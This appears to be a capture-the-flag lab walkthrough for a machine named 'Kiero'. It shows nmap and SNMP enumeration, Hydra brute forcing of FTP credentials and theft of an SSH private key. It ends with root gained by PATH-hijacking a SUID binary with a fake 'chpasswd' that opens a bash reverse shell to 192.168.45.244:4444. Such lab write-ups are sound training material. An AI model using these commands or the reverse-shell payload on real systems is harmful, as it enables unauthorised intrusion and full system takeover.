



# Kiero

## TCP Nmap

```bash
nmap -Pn -p- 192.168.165.149                                   
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-30 19:37 +0000
Stats: 0:01:15 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 26.38% done; ETC: 19:42 (0:03:29 remaining)
Nmap scan report for 192.168.165.149
Host is up (0.100s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

## UDP Nmap

```bash
nmap -sU 192.168.165.149
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-30 20:11 +0000
Stats: 0:03:57 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 24.95% done; ETC: 20:27 (0:11:53 remaining)
Nmap scan report for 192.168.165.149
Host is up (0.093s latency).
Not shown: 999 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp
```

## SNMP Enum

```bash
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp-onesixtyone.txt 192.168.165.149

# Results
public

# Bulk Query
snmpbulkwalk -c public -v2c 192.168.165.149 .

# Username query failed
# Focused Query
snmpbulkwalk -c public -v2c 192.168.165.149 . | grep NET-SNMP-EXTEND-MIB

# Results
NET-SNMP-EXTEND-MIB::nsExtendNumEntries.0 = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendCommand."RESET" = STRING: ./home/john/RESET_PASSWD
NET-SNMP-EXTEND-MIB::nsExtendArgs."RESET" = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendInput."RESET" = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendCacheTime."RESET" = INTEGER: 5
NET-SNMP-EXTEND-MIB::nsExtendExecType."RESET" = INTEGER: exec(1)
NET-SNMP-EXTEND-MIB::nsExtendRunType."RESET" = INTEGER: run-on-read(1)
NET-SNMP-EXTEND-MIB::nsExtendStorage."RESET" = INTEGER: permanent(4)
NET-SNMP-EXTEND-MIB::nsExtendStatus."RESET" = INTEGER: active(1)
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."RESET" = STRING: Resetting password of kiero to the default value
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."RESET" = STRING: Resetting password of kiero to the default value
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."RESET" = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendResult."RESET" = INTEGER: 0
NET-SNMP-EXTEND-MIB::nsExtendOutLine."RESET".1 = STRING: Resetting password of kiero to the default value

# Username john and kiero found
```

## Attempt to Login to FTP with Kiero:Kiero since Hydra Failed
```bash
hydra -L users.txt -P users.txt ftp://192.168.165.149

# Results
[21][ftp] host: 192.168.165.149   login: kiero   password: kiero
```

## FTP Login as Kiero

```bash
ftp kiero@192.168.165.149

# Dir enum
dir

# Results
-rwxr-xr-x    1 114      119          2590 Nov 21  2022 id_rsa
-rw-r--r--    1 114      119           563 Nov 21  2022 id_rsa.pub
-rwxr-xr-x    1 114      119          2635 Nov 21  2022 id_rsa_2

# Download

get id_rsa

# Change permissions
sudo chmod 600 id_rsa

# Log in
# Login as Kiero failed. Attempt john
ssh -i id_rsa john@192.168.165.149

# Success
# Grab Flag
```

## Found interesting Binary

```bash
find / -perm -u=s -type f 2>/dev/null

# Results
/home/john/RESET_PASSWD

# Check Ownership
ls -la /home/john/RESET_PASSWD

# Results (RAN BY ROOT)
-rwsrwsr-x 1 root root 16792 Nov 21  2022 /home/john/RESET_PASSWD
```


## Run strings on it to see what commands it calls internally
```bash
strings /home/john/RESET_PASSWD

#NOTE: We're looking to see if it calls any commands without a full absolute path
# We see this:
echo kiero:kiero | chpasswd

# NOTE: it's calling chpasswd without the full path /usr/sbin/chpasswd. That means when it runs, it searches your PATH variable to find chpasswd. If we put a malicious chpasswd in /tmp and add /tmp to the front of PATH, it'll execute ours instead with root privileges.
```

## Change PATH Variable
```bash
export PATH=/tmp:$PATH

# This makes it so the /tmp path is searched first
```

## Start Lisnter and establish shell

```bash
# Listener
nc -lvnp 4444

# Revshells to create shell (Change to linux and other applicable options)
/bin/sh -i >& /dev/tcp/192.168.45.244/4444 0>&1

# change directory
cd /tmp

# Create shell file
nano chpasswd

#Paste shell contents 
#!/bin/bash
/bin/sh -i >& /dev/tcp/192.168.45.244/4444 0>&1

# Change permissions
chmod +x /tmp/chpasswd

# Run file
./RESET_PASSWD

# Shell established as root
# Grab root flag
```

